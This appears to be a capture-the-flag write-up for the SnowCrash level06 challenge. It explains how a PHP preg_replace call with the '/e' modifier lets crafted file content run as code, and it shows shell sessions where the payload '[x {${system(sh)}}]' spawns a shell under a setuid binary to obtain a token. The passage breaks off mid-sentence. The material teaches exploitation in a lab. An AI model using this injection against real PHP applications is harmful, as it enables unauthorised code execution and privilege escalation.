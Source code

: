 ### Exploit

This level, we're going to look at the potential vunerabilities of a PHP script. More specifically, that of the function [preg_replace](http://www.madirish.net/402). We are given two files to work with: a PHP script and an executable binary. Both appear to be rigourously the same. Let's break them down.

First off, the script takes two parameters which are called in function __x__. This function basically get the file content of the first argument via [file_get_contents](https://www.php.net/manual/en/function.file-get-contents.php) and prints it. So far, nothing too complicated. The next line is far more interesting.
> $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

Indeed, the '/e' modifier actually allows us to evaluate the second argument as a PHP expression. This means we could create a file whose content is to be interpreted and then executed by the script. For example:
```
    level06@SnowCrash:~$ echo "`ls -lah`" >/tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    total 24K
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3.5K Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7.4K Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
```
Unfortunately, this won't work:
```
    level06@SnowCrash:~$ echo "`getflag`" >/tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    Check flag.Here is your token :
    Nope there is no token here for you sorry. Try again :)
```
We need to trick the script into thinking it executes `getflag` as `flag06`. More shell spawning anyone?

```
    level06@SnowCrash:~$ echo '[x {${system(sh)}}]' >/tmp/getflag
    level06@SnowCrash:~$ ./level06 /tmp/getflag
    PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/user/level06/level06.php(4) : regexp code on line 1
    getflag
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

This works because we are essentically...

